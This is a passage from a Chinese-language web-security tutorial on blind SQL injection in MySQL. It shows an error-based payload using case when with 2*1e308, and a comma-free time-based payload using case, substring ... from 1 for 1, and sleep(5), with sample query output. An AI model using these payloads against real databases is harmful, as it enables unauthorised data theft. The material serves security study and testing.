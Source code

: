 

```plain
// 错误的情况
// 页面会爆错，如果关闭了错误提示，页面的数据会为空
mysql> select * from tdb_goods where goods_id=1-case when 1 like 2 then 0 else 2*1e308 end;
ERROR 1690 - DOUBLE value is out of range in '(2 * 1e308)'
```

# 四、case()+sleep函数-绕过过滤逗号（，）绕过

# 0x00 记忆方式



and case when(substring(表达式 from 1 for 1)=判断条件) then sleep(5) else 0 end;



# 0x01 基本数据



```plain
mysql> select version();
+-----------+
| version() |
+-----------+
| 5.5.53    |
+-----------+
1 row in set (0.27 sec)

mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)

mysql> select database();
+------------+
| database() |
+------------+
| test       |
+------------+
1 row in set (0.00 sec)
```



# 0x02 获取数据长度
